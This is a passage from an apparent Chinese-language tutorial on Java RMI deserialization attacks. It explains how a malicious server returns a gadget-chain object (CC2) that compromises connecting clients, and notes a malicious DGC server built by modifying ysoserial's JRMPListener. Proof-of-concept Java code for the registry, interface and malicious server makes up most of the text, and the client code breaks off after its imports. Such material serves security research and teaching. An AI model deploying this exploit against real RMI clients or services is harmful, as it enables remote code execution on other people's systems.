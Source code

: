 这里利用的话，需要构建一个恶意的DGC服务端，和前面对client一样改造ysoserial.exploit.JRMPListener即可。

#### Client接收Server返回对象的反序列化攻击（jdk8u241后仍可用）

##### 示例代码

攻击方法非常简单，server端返回一个恶意的对象即可。

测试的时候注意设置server的JVM参数，-Djava.rmi.server.hostname=，不然client有可能收不到正确的server ip

```java
// register
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Register {
    public static void main(String[] args) throws RemoteException, InterruptedException {
        Registry registry =  LocateRegistry.createRegistry(1099);
        System.out.println("RMI registry started on port 1099");

        // 保持程序运行
        synchronized (Register.class) {
            Register.class.wait();
        }
    }
}

// server
import java.rmi.Remote;

public interface ReturnObj extends Remote {
    public Object returnObj() throws Exception;
}


import org.example.payload.CC2;
import org.example.remoteInterface.ReturnObj;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;

public class ReturnObjServer extends UnicastRemoteObject implements ReturnObj {
    public ReturnObjServer() throws RemoteException {}
    @Override
    public Object returnObj() throws Exception {
        return CC2.getObject();
    }

    public static void main(String[] args) throws RemoteException, AlreadyBoundException {
        ReturnObjServer returnObjServer = new ReturnObjServer();
        String host = "127.0.0.1";
        int port = 1099;
        Registry registry = LocateRegistry.getRegistry(host, port);
        registry.bind("returnObjServer",returnObjServer);
    }
}

// client
import org.example.remoteInterface.ReturnObj;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

```